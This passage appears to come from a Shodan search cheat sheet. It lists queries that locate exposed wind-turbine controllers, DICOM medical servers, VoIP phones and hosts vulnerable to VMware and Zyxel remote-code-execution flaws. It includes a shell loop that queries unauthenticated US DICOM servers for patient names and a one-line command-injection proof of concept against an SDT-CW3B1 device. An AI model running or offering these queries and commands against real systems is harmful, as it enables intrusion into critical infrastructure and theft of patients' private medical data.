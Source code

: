 ```
```
cgi-bin/MANGA/index.cgi
```

## Miscellaneous

Nordex Wind Turbine Farms

```
http.title:"Nordex Control" "Windows 2000 5.0 x86" "Jetty/3.1 (JSP 1.1; Servlet 2.2; java 1.6.0_14)"
```

DICOM Medical X-Ray Machines

```
"DICOM Server Response" port:104
```

TeamViewer

```
port:5938 "\x17$\x11\x04\x00"
```

Yealink T49G VOIP Phones

```
Yealink T49G
```

Search for devices vulnerable to CVE-2022-22954:

VMware Workspace ONE Access and Identity Manager contain a remote code execution vulnerability due to server-side template injection. A malicious actor with network access can trigger a server-side template injection that may result in remote code execution.

```
http.favicon.hash:-1250474341
```
## Exposed DICOM Servers

Count patient names in US exposed DICOM medical servers with no authentication

```
$ shodan download search "tag:medical" "country:us"; shodan parse --fields ip_str search.json.gz > usa_dicom_ip ; for i in `cat usa_dicom_ip` ; do echo "///// Now connecting to $i ////" ; findscu -v -to 1 -P -k PatientName="*" $i 104 >> us_dicom_patient_names; wc -l us_dicom_patient_names ; done
```
## Zyxel Firewall Unauthenticated Remote Command Injection

Rapid7 discovered and reported a vulnerability that affects Zyxel firewalls supporting Zero Touch Provisioning (ZTP), which includes the ATP series, VPN series, and the USG FLEX series (including USG20-VPN and USG20W-VPN). The vulnerability, identified as CVE-2022-30525, allows an unauthenticated and remote attacker to achieve arbitrary code execution as the nobody user on the affected device.

```
title:"USG FLEX 100","USG FLEX 100w","USG FLEX 200","USG FLEX 500","USG FLEX 700","USG FLEX 50","USG FLEX 50w","ATP100","ATP200","ATP500","ATP700"
```

## SDT-CW3B1 1.1.0 - OS Command Injection (CVE-2021-46422)

```
poc:http://<IP>/cgi-bin/admin.cgi?Command=sysCommand&Cmd=id
```
```